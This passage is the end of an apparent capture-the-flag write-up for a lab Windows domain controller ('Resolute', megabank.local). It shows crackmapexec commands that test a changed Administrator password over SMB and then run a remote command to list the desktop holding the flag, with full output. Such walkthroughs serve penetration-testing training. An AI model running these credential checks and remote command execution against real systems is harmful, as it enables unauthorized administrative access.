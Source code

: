 ```bash
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2988
        FLAGS              :
```

Now, let's see if the **administrator** password was changed.

```bash
$ crackmapexec smb 10.129.96.155 -d megabank.local -u Administrator -p 'Qwerty1!'
SMB         10.129.96.155   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.96.155   445    RESOLUTE         [+] megabank.local\Administrator:Qwerty1! (Pwn3d!)
```

Great, we now have valid credentials for the **administrator** account. Then, we can connect on the remote machine with administrative privileges and read the **second flag**.

```bash
$ crackmapexec smb 10.129.96.155 -d megabank.local -u Administrator -p 'Qwerty1!' -x 'dir C:\Users\Administrator\Desktop\'        
SMB         10.129.96.155   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.96.155   445    RESOLUTE         [+] megabank.local\Administrator:Qwerty1! (Pwn3d!)
SMB         10.129.96.155   445    RESOLUTE         [+] Executed command 
SMB         10.129.96.155   445    RESOLUTE         Volume in drive C has no label.
SMB         10.129.96.155   445    RESOLUTE         Volume Serial Number is D1AC-5AF6
SMB         10.129.96.155   445    RESOLUTE         
SMB         10.129.96.155   445    RESOLUTE         Directory of C:\Users\Administrator\Desktop
SMB         10.129.96.155   445    RESOLUTE         
SMB         10.129.96.155   445    RESOLUTE         12/04/2019  05:18 AM    <DIR>          .
SMB         10.129.96.155   445    RESOLUTE         12/04/2019  05:18 AM    <DIR>          ..
SMB         10.129.96.155   445    RESOLUTE         02/07/2022  10:48 AM                34 root.txt
SMB         10.129.96.155   445    RESOLUTE         1 File(s)             34 bytes
SMB         10.129.96.155   445    RESOLUTE         2 Dir(s)   2,475,847,680 bytes free
```

Awesome! I hope you enjoyed it, I know I did :)